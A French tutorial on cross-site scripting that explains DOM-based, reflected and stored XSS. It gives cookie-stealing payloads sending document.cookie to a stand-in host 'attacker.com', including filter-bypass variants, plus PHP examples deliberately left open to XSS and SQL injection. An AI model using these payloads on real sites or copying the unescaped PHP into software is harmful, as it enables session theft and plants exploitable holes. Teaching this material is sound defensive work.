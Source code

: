 ```yaml
---
title: XSS, késako ?
authors:
    - Pierre-Ky-org
date: 2023-06-10
lang: fr
---
```


## Qu'est ce qu'une XSS ?

### Introduction
L'attaque par Cross-Site Scripting, communément appelée XSS, est une attaque qui est pratiquée sur des applications web. Elle est actuellement une attaque dévastatrice et à prendre au sérieux (3ᵉ du top 10 OWASP) 🫨🫨. Cette technique exploite les entrées utilisateurs qui ne sont pas désinfectées par le développeur. On va donc passer par des requêtes HTTP GET/POST pour injecter nos payloads et pouvoir toucher les autres utilisateurs.

Il existe trois variantes principales de cette attaque :

- le XSS basé sur le DOM
- le XSS réfléchi
- le XSS stocké

Pour savoir laquelle nous allons utiliser, il va falloir voir de quoi se compose le serveur web que nous attaquons. 

### XSS basé sur le DOM


La XSS basé sur le DOM est une attaque XSS non persistante qui s'exécute côté client. C'est-à-dire que notre objectif n'est pas de la maintenir dans une base de donnée du serveur et de la propager à tous les utilisateurs. Nous allons plutôt créer une URL qui sera exécuté par le code JS côté client :

```http://target.com/search?request=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```

Voici notre URI, décortiquons là : 

Nous avons d'abord notre site cible : ```http://target.com/search```, on va chercher la page qui contient un formulaire ou qui nécessite un argument dans l'URL.

```?request=``` est l'argument dans lequel on va intégrer notre script JS.

```<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```, ici on utilise [document.location](https://developer.mozilla.org/fr/docs/Web/API/Document/location) pour rediriger l'utilisateur vers ```http://attacker.com/steal.php``` qui sera notre site de réception de cookie, on ajoute l'argument ```cookie='+document.cookie``` pour rediriger les cookies de la victime vers notre site 😃

La différence avec une XSS réfléchi, c'est que le notre URL sera exécuté côté client et non par le serveur ! 

Par exemple, si côté client, vous avez un code qui récupère les arguments et les affiche dans le DOM :


```javascript
var url = document.location.href;
var message = url.split("message=")[1];
document.getElementById('welcomeMessage').innerText = message;
```

Alors, lorsque l'utilisateur visite cette URL (par phising la plupart du temps), le code JS extrait le message à partir de l'URL et l'injecte directement dans la page, ce qui conduit à l'exécution du code.


### XSS réfléchi

L'attaque XSS réfléchi vient du fait que l'attaque est basée sur la réponse du serveur à une requête, elle rentre en opposition avec la XSS basé sur le DOM qui exécute le code coté client.
Cette variante est aussi non persistante et sera aussi exploiter par le phising 

Reprenons notre payload : 

```http://target.com/search?request=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```

Si le serveur a un script php de ce style qui extrait et affiche la requête : 



```php
<?php
$request = $_GET['request'];
?>
<html>
    <body>
        <form method="GET" action="">
            <input type="text" name="request" placeholder="Enter search request" />
            <input type="submit" value="Search" />
        </form>
        <?php
        if ($request) {
            echo "You searched for: " . $request;
        }
        ?>
    </body>
</html>
```

Alors le serveur renverra une page avec notre code qui sera inséré dedans.


### XSS stocké

Pour la XSS stocké, considérons un site web avec un forum de discussion où les utilisateurs peuvent poster des commentaires. Si le site ne vérifie pas correctement le contenu des messages, un attaquant pourrait poster un commentaire contenant du code JS, comme notre fameux payload ```<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie;</script>```. Ce commentaire serait alors stocké sur la base de donnée du site et chaque fois qu'un autre utilisateur affichera ce commentaire sur son navigateur, le code malveillant serait exécuté. 
Voici un exemple de script php qui stocke les inputs que les utilisateurs envoient : 

```php
<?php
$db = new SQLite3('comments.db');
$db->exec("CREATE TABLE IF NOT EXISTS comments (comment TEXT)");

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $comment = $_POST['comment'];
    $db->exec("INSERT INTO comments (comment) VALUES ('$comment')");
}
?>

<!DOCTYPE html>
<html>
<body>
<form method="post" action="">
    <textarea name="comment"></textarea>
    <input type="submit" value="Submit comment">
</form>

<?php
$results = $db->query('SELECT * FROM comments');
while ($row = $results->fetchArray()) {
    echo $row['comment'] . '<br />';
}
?>

</body>
</html>
```

Ici la première partie du code PHP intègre le commentaire à la base de données. Puis la seconde partie affiche tout les commentaires.

### Payloads exotiques

Souvent des normes de sécurités sont mises en place pour supprimer les balises script, il faut donc ruser pour pouvoir injecter notre payload.
Par exemple celui-ci : 

```<img src/onerror=document.location='http://attacker.com/steal.php?cookie='+document.cookie;>```

Ce payload ajoute une balise image aux DOM qui n'a pas de source ce qui appellera onerror et lancera notre script.

Ou encore ce payload : 

```<a onclick="document.location='http://attacker.com/steal.php?cookie='+document.cookie;" style=display:block>test</a>```

Ici, on ajoute un lien avec la balise ```a``` qui utilise ```onclick``` pour activer le script.
Ce payload demande que la victime interagisse plus et sera moins efficace.

Beaucoup de payload existe et je vous recommande [PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) pour explorer un peu les possibilités 😁



